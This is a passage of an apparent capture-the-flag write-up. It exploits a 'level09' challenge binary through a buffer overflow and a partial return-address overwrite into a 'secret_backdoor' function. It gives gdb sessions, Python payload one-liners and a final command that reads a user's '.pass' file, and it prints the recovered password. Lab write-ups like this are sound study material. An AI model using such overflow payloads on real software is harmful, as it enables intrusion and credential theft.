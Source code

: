In the first buffer, it we write `\xca` 41 times, it will make the second fgets overflow the `handle_msg` buffer. It then segfaults on the eip of `handle_msg` and give us the ability to write it. The eip adress is almost the same as the `secret_backdoor` adress so we only need to write the 2 last bytes:
```shell
(gdb) r < <(python -c 'print "\xca" *41'; python -c 'print "B"*200 + "\x41\x41"')
...
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554141 in ?? ()

(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>

(gdb) r < <(python -c 'print "\xca" *41'; python -c 'print "B"*200 + "\x8c\x48"')
...
sh: 1: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB: not found

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```
We are then able to write a string which will be passed to `system`.
```shell
bash$ ./level09 < <(python -c 'print "\xca" *41'; python -c 'print "B"*200 + "\x8c\x48"'; echo "cat /home/users/end/.pass")
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
